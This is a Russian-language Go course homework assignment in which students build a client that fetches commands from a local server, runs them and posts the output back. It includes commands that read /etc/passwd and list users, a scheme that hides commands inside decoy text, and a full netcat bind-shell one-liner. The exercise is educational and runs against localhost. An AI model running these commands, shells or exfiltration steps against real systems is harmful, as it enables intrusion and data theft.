 # Домашнее задание к занятию «Программирование на Go - внешние библиотеки»

В качестве результата пришлите ответы на вопросы в личном кабинете студента на сайте [netology.ru](https://netology.ru).

**Важно**: GoLand устанавливать не обязательно (но очень желательно), вы можете набирать текст программ в любом текстовом редакторе и запускать из консоли командой: `go run main.go`, либо собирать с помощью команды: `go build -o main main.go`.

## Задача "Commands executing"

### Легенда

На основании проекта с лекции реализовать исполнение команд агентом.

### Выполнение

**Важно**: не забывайте после изменения кода сервера или клиента перезапускать их.

1. У вас есть готовый сервер, отдающий команду `cat /etc/passwd`
1. У вас есть готовый клиент, который умеет читать тело ответа
1. Осталось "закинуть тело" ответа в `system` (см. прошлые ДЗ)
   
### Результаты

В качестве результата пришлите: исходный код вашего приложения (запакуйте в zip-архив или выложите проект на GitHub, если вы посмотрели лекции по Git)

## Задача "Windows/Linux"*

**Важно**: данная задача не является обязательной, её (не)выполнение не влияет на получение зачёта по ДЗ. 

### Легенда

Как вы помните, команды могут быть разные для разных ОС. Почему бы не использовать переменную `GOOS`, для того, чтобы оповещать сервер о том, на какой операционной системе работает клиент?

### Выполнение

**Важно**: не забывайте после изменения кода сервера или клиента перезапускать их.

1\. Необходимо добавить отправку информации об ОС в строке запроса на клиенте, так, чтобы получалось:

```
GET http://localhost:9999/updates?os=linux
```

Всё, что идёт после вопросительного знака в формате `key=value` до символа `#` или конца строки (если символа решётки нет) называется Query Params (иногда часть `=value` может отсутствовать).

В частности, HTML-формы, отправляемые запросом GET (например, поиск Google, Yandex и других сервисах - Booking, etc) попадают именно в Query Params.
   
<details>
<summary>Подсказка</summary>

```go
resp, err := client.Get("http://localhost:9999/updates?os=" + runtime.GOOS)
```

Примечание*: это можно сделать и более "красиво", но для нас: самый простой метод - самый удобный.
</details>

2\. Необходимо извлечь передаваемые данные об ОС на сервере с помощью метода [`FormValue` у структуры `http.Request`](https://golang.org/pkg/net/http/#Request.FormValue) и исходя из них отдавать команды

<details>
<summary>Подсказка</summary>

```go
value := request.FormValue("os")
if value == "linux" {
    writer.Write([]byte("cat /etc/passwd"))
    // позволяет завершить выполнение функции
    // не делайте os.Exit() - это завершит работу всего сервера
    return
}
if value == "windows" {
    writer.Write([]byte("net user"))
    return
}
```
</details>

3\. Удостоверьтесь, что это работает под различными ОС (как минимум, Linux и Windows)

### Результаты

В качестве результата пришлите: исходный код вашего приложения (запакуйте в zip-архив или выложите проект на GitHub, если вы посмотрели лекции по Git)

## Задача "Hiding & netcat shell"*

**Важно**: данная задача не является обязательной, её (не)выполнение не влияет на получение зачёта по ДЗ.

### Легенда

Как мы уже говорили, отправка команд в явном виде выглядит слишком подозрительно. Почему бы нам не воспользоваться простейшими знаниями из истории криптографии и попробовать "скрыть" передаваемые команды. Например, договориться, что мы читаем каждый третий символ из ответа, таким образом составляя команду, которую необходимо выполнить.

**Q**: О чём идёт речь?

**A**: например, сервер нам будет присылать вот такой бессвязный текст в ответ на `GET http://localhost:9999/updates`:
```no-exc.v10 libc-v2  ldd10 stux2020.20 c.2020.10.04```

Если клиент будет брать каждый "пятый" символ, начиная с 0-го (0, 5, 10, 15, 20, и т.д.), то рано или поздно мы получим команду `nc -l 2221`.

**Важно**: в целях упрощения мы будем брать фиксированные индексы и фиксированную длину команды, которую присылает сервер. Важно, чтобы тело ответа, присылаемое сервером было достаточным для того, чтобы вы могли извлечь все нужные байты.

<details>
<summary>Код</summary>

Например:
```go
package main

import (
	"log"
)

func main() {
	data := []byte("no-exc.v10 libc-v2  ldd10 stux2020.20 c.2020.10.04")
	cmd := []byte{data[0], data[5], data[10], data[15], data[20], data[25], data[30], data[35], data[40], data[45]}
	log.Print(string(cmd))
}
```
</details>

Попробуйте закодировать подобным образом следующую команду: `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc -l 12853 > /tmp/f` (необязательно кодировать через 5 символов, можно больше, можно меньше).

<details>
<summary>Как не собирать руками на клиенте?</summary>

Поскольку собирать руками такую команду достаточно утомительно, мы можем написать кусочек кода, который это сделает за нас:
```go
package main

import (
	"log"
)

func main() {
	data := []byte("no-exc.v10 libc-v2  ldd10 stux2020.20 c.2020.10.04")
	// создаём пустой слайс для наполения данными
	cmd := make([]byte, 0)
	// переменная для хранения индекса
	index := 0
	// пока индекс меньше, чем длина ответа от сервера
	// (воспринимайте как if, который повторяется автоматически до тех пор, пока выполняется условие)
	for index < len(data) {
		// стандартная конструкция добавления в слайс значения
		cmd = append(cmd, data[index])
		// увеличиваем index на 5
		// = работает справа налево:
		// 1. сначала справа вычисляется значение: index + 5
		// 2. вычисленное на шаге 1 значение записывается обратно в index
		index = index + 5
	}

	log.Print(string(cmd))
}
```

</details>

И отправьте её с сервера на клиент под ОС Linux и попробуйте подключиться к нему (к клиенту) с помощью команды (выполняйте в терминале): `nc <ip клиента> 12853` (firewall на клиенте должен быть отключен).

### Результаты

В качестве результата пришлите:
1. Исходный код вашего приложения (запакуйте в zip-архив или выложите проект на GitHub, если вы посмотрели лекции по Git)
1. Ответ на вопрос: "что именно и как делает указанная команда"

И отправьте её с сервера на клиент под ОС Linux и попробуйте подключиться к нему с помощью команды (выполняйте в терминале): `nc <ip клиента> 12853`.

## Задача "Telemetry"*

**Важно**: данная задача не является обязательной, её (не)выполнение не влияет на получение зачёта по ДЗ.

### Легенда

Мы научились собирать данные от команд, запускаемых с помощью пакета `exec`. Давайте попробуем отправить эти данные на сервер (при этом мы назвали задачу "Telemetry" - будем "эмулировать" стандартный процесс приложений, которые в благонамеренных целях собирают данные об устройстве пользователя).

Для этого воспользуемся нашим HTTP клиентом и его методом `Post`:
```go
resp, err := client.Post("http://localhost:9999/telemetry", "", bytes.NewReader(info))
```

Где, `info` - это слайс байт, а `bytes.NewReader` - функция, позволяющая создать специализированный тип для передачи данных в запрос (`io.Reader`).

Как это прочитать на сервере? Достаточно просто, почти так же, как мы читали тело ответа на клиенте, только теперь мы будем читать тело запроса на сервере:
```go
func (h Handler) ServeHTTP(writer http.ResponseWriter, request *http.Request) {
	data, err := ioutil.ReadAll(request.Body)
	if err != nil {
		log.Print(err)
		return
	}
	log.Print(string(data))
}
```

Что нужно сделать? Прямо в том же проекте:

#### На сервере

Реализуйте в `ServeHTTP` следующую логику:
1. Если приходит запрос типа `GET`, то вы отдаёте команду
1. Если приходит запрос типа `POST`, то вы читаете `Body` и выводите его в консоль

Для получения метода запроса используйте поле `request.Method`.

#### На клиенте

1. При запуске получайте команду для исполнения с `http://localhost:9999/updates`
1. Если команда равна `user info`, то используйте `user.Current()` и отправляйте в виде JSON информацию о пользователе
1. Если команда не равна `user info`, то выполняйте команду и отсылайте полученные данные с помощью POST

### Результаты

В качестве результата пришлите: исходный код вашего приложения (запакуйте в zip-архив или выложите проект на GitHub, если вы посмотрели лекции по Git)
